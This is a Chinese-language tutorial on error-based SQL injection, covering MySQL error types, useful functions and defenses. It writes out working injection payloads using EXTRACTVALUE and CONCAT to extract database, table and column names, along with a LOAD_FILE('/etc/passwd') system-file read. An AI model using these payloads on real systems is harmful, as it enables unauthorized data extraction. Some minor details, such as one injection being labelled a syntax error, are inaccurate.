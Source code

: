 报错注入（Error-based SQL Injection）是 SQL 注入攻击的一种方式，攻击者通过引发数据库错误，利用数据库返回的错误信息来获取敏感数据、推测数据库结构，甚至执行更进一步的攻击。报错注入通常依赖于数据库在出现 SQL 错误时返回详细的错误消息，这些消息包含了关于数据库、表、列、数据类型等信息。

### 1. 报错注入的原理

- 当数据库执行不合法的查询时，通常会抛出一个错误消息。攻击者通过构造特定的查询，使得数据库发生错误，从错误消息中提取信息。
- 常见的数据库错误类型包括：语法错误、列不存在、表不存在、数据类型不匹配等。
- 通过报错信息，攻击者能够推测出数据库的结构、表名、列名、数据类型，甚至可能直接获取数据内容。

### 2. 常见的 SQL 错误类型

- 语法错误

：

?id=1' AND 1=2 --+ -- 语法错误

- 列不存在错误

：

ERROR: Unknown column 'non_existent_column' in 'field list'

- 数据类型错误

：

ERROR: Cannot cast value to integer

- 表不存在错误

：

ERROR: Table 'non_existent_table' doesn't exist

这表明 non_existent_table 表并不存在，攻击者可以利用这个错误来确认哪些表是存在的。

### 3. 常用的 SQL 函数（利用错误回显）

在报错注入中，攻击者常常使用一些特定的 SQL 函数来引发错误或从错误信息中获取有用的线索。

#### 常用函数：

- CONCAT()

：

SELECT CONCAT('User: ', username) FROM users WHERE id = 1;

- LOAD_FILE()

：

SELECT LOAD_FILE('/etc/passwd');

- @@version

：

SELECT @@version;

- DATABASE()

：

SELECT DATABASE();

- USER()

：

SELECT USER();

- GROUP_CONCAT()

：

SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'my_database';

- EXTRACTVALUE()

：

SELECT EXTRACTVALUE(1, '//root/node');

- UPDATEXML()

：

SELECT UPDATEXML('<root><name>admin</name></root>', '//root/name', 'new_value');

- SLEEP()

：

SELECT SLEEP(5);

### 4. 报错注入的实际攻击

#### 例子 1：获取数据库名称

假设攻击者想要获取当前数据库的名称，可以使用如下注入：

?id=1' AND EXTRACTVALUE(1, CONCAT('~', DATABASE(), '~')) --+

如果查询成功并且错误消息包含回显，攻击者会看到类似 ~my_database~ 这样的字符串，其中 my_database 是当前数据库的名称。

#### 例子 2：暴力获取表名

攻击者可以通过暴力猜测数据库中的表名。假设攻击者通过报错来判断是否存在某个表：

?id=1' AND EXTRACTVALUE(1, CONCAT('~', (SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1 OFFSET 0), '~')) --+

这里，OFFSET 0 将从第一个表开始查询，并通过回显获取表名。

#### 例子 3：枚举列名

假设攻击者想要暴力推测某个表的列名，使用 GROUP_CONCAT() 函数：

?id=1' AND EXTRACTVALUE(1, CONCAT('~', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'), '~')) --+

这个查询会回显 users 表的列名。

### 5. 防御措施

- 禁用详细的错误消息：许多数据库默认会返回详细的错误信息，暴露了敏感信息。通过配置数据库或者应用程序来禁用详细的错误回显，可以有效防止报错注入。
- 输入验证和参数化查询：使用输入验证和参数化查询可以有效防止 SQL 注入攻击。参数化查询不会直接将用户输入拼接到 SQL 查询中，从而避免了注入攻击。
- 使用最小权限原则：限制数据库账户的权限，防止攻击者在数据库被成功注入的情况下执行危险操作。
- Web 应用防火墙：使用 WAF（Web Application Firewall）来拦截和防止常见的 SQL 注入攻击。

### 总结：

报错注入利用了数据库错误消息中的信息，攻击者可以通过构造特定的查询，迫使数据库引擎返回有用的错误信息，如数据库名称、表名、列名等。为了防止这种类型的攻击，重要的防御措施包括禁用详细错误消息、使用参数化查询、输入验证以及限制数据库权限等。